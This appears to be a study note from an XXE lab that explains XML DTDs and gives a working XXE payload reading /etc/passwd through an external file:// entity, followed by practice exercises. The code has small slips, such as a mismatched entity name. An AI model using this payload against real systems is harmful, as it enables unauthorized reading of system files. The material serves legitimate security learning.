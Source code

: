 - DTD stands for _Document Type Definition_, which defines the structure and the legal elements and legal elements and attributes of an XML document
- File extension : `.dtd`
- XML DTD example :

  ```XML
  <!DOCTYPE note [                          <!-- <note>     : root element-->
    <!ELEMENT note (to,from,heading,body)>  <!-- <note>     : element in type '#PCDATA' -->
    <!ELEMENT to (#PCDATA)>                 <!-- <to>       : element in type '#PCDATA' -->
    <!ELEMENT from (#PCDATA)>               <!-- <from>     : element in type '#PCDATA' -->
    <!ELEMENT heading (#PCDATA)>            <!-- <heading>  : element in type '#PCDATA' -->
    <!ELEMENT body (#PCDATA)>               <!-- <body>     : element in type '#PCDATA' -->
    <!ENTITY writer "Donald Duck">          <!-- &writer;   : Internal entity 'writer' with interpreted value "Donald Duck" -->
    <!ENTITY copyright SYSTEM "https://www.w3schools.com/entities.dtd">
    <!-- &copyright; : External  entity 'copyright' with interpreted value that can be found on remote DTD -->
  ]>

  ```

  - **Reference** : <https://www.w3schools.com/xml/xml_dtd_entities.asp>
  - **Note** : _[#PCDATA](https://en.wikipedia.org/wiki/PCDATA)_ means parseable character data

### Intro to XXE Payload

1. Read system file `/etc/passwd` with external ENTITY (FTP URL syntax)

   ```dtd
   <!DOCTYPE root [
     <!ENTITY read SYSTEM 'file:///etc/passwd'>
   ]>

   <root>&read;</root>
   ```

   - It displays the file content if a website is vulnerable to XXE

### XXE Practice

1. Try to display your own name using any payload

   ```xml
   <!DOCTYPE name [
     <!ENTITY firstname 'FIRSTNAME_STRING'>
     <!ENTITY lasttname 'LASTNAME_STRING'>
   ]>

   <name>
     <tag1>&firstname;</tag1>
     <tag2> &lastname;</tag2>
   </name>
   ```

2. See if you can read the /etc/passwd
